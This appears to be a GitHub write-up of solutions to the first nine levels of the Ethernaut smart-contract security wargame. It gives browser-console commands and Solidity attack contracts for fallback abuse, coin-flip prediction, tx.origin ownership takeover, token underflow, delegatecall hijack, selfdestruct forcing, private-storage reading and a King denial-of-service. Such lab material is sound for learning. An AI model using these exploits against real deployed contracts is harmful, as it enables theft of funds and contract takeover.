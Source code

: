  # ethernaut solutions

## 1. Fallback
From looking at the contract given to us in the first level we see that the final function ```receive()``` that is ```payable``` that is a fallback function that can be called to manipulate us to become the owner of the contract to withdraw all of the funds currently held in it.

We notice that we must first contribute some amount in order for the ```receive()``` function to give us the owner status we need to call ```withdraw()``` then we can drain the contract.

This can be done by running these three commands in our browser's console:
```
await contract.contribute({value: 1})
await contract.sendTransaction({value: 1})
await contract.withdraw()
```
## 2. Fallout
Right away you can notice that the constructor is misspelled allowing any user to go in and calling ```Fal1out()``` which will give them ownership of the contract.

The following commands in the browser console will give you ownership of the contract:
```
await contract.owner() // shows that the owner of the contract currently is a NULL address
await contract.Fal1out({value: 1})
await contract.owner() // after the above command we now see that our address is the owner
await contract.collectAllocations()
```
## 3. Coinflip
Ok this was a little bit more difficult from the previous two since now we need to write code. I won't lie either I looked up some hints online to give me some type of idea how to go about this and it was much simpler once i read them. We need to import the CoinFlip contract given to us into a new solidity file so that it can be called at a later point after we submit our guess to the main ```flip()``` function in it. All we are really doing is taking the given function and copying it entirely but at the end when we check if the side is equal to our guess we just either submit our true or false answer if it is equal to the side and the opposite if not.

Below is my contract I wrote and deployed on Rinkeby that ended up working:
```// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

contract CoinFlipHack {
  CoinFlip target = CoinFlip(Instance ID);
  using SafeMath for uint256;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;


  function hackFlip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      target.flip(true);
    } else {
      target.flip(false);
    }
  }
}
```
## 4. Telephone
Another easy one the contract is set up so that we can change ourself to the owner of the contract simply by calling the ```changeOwner()``` function through a contract from our address. Use ```await contract.owner()``` to see the initial owner of contract and to check that our address is the owner afterwards.

Code written that calls the Telephone contract to allow us to take ownership:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneHack {
    Telephone target = Telephone(Instance ID);

    function telephoneHack(address _owner) public {
        target.changeOwner(_owner);
    }
}
```
## 5. Token
This is a basic level that shows that without using Openzeppelin's SafeMath that your contract is vulnerable to overflow attacks on unsigned variables.

This one command allows us to steal tokens from the contract:
```
await contract.transfer(Instance ID, 21)
```
## 6. Delegation
We are presented with two contracts in the given code one being the Delegate and the other the Delegation contract. We are given three hints to look into the ```delegatecall()``` function that is the Delegation contract, the fallback function it is used in, and method IDs.

Going off these hints when we deep dive into just what ```delegatecall``` does we find that it allows us to pass the ```msg.data``` along to the Delegate contract. This is where the method ID comes into play, using the command ```web3.eth.abi.encodeFunctionSignature({name: 'pwn', type: 'function', inputs: []})``` and set it equal to some arbitrary variable to be used later we can get the method ID of the function ```pwn()``` that can be passed as our data into the fallback function to allow us to execute it to set our address to be the owner. After all this we can simply do ```await contract.sendTransaction({data: 'pwn function method ID'})``` to allow us to become the contract owner.
## 7. Force
At first glance I was a bit confused on how to go about this but after looking into some hints all it requires is us to create a contract that calls ```selfdestruct()``` to our ethernaut instance address. Using a constructor to use ```selfdestruct``` on the target address is better than a function because we can specify a value when deploying through remix.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceAttack {
    constructor(address payable _victim) public payable {
        selfdestruct(_victim);
    }
}
```
## 8. Vault
From level 6 we can get a hint on how we are able to complete this level. We learned during that level that variables are stored in slots, we now know that even if the variable is set to private this doesn't change. Luckily web3.js has a great tool that allows us to retrieve data stored at these points by using ```await web3.eth.getStorageAt('instance ID', 1)``` we use 1 here because the password is the second variable stored. Then after this we can simply call ```await contract.unlock('that returned password from before')``` and now the vault will be unlocked.

## 9. King
For this level we need to create a contract with no fallback function so that it is unable to receive the prize from the original contract. Since this transfer will fail that means no one else is able to take the Kingship back from us when we submit the instance.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract KingAttack {
    function attack(address payable _king) public payable {
        (bool sent,) = _king.call{value: msg.value}("");
        require(sent);
    }
}
```


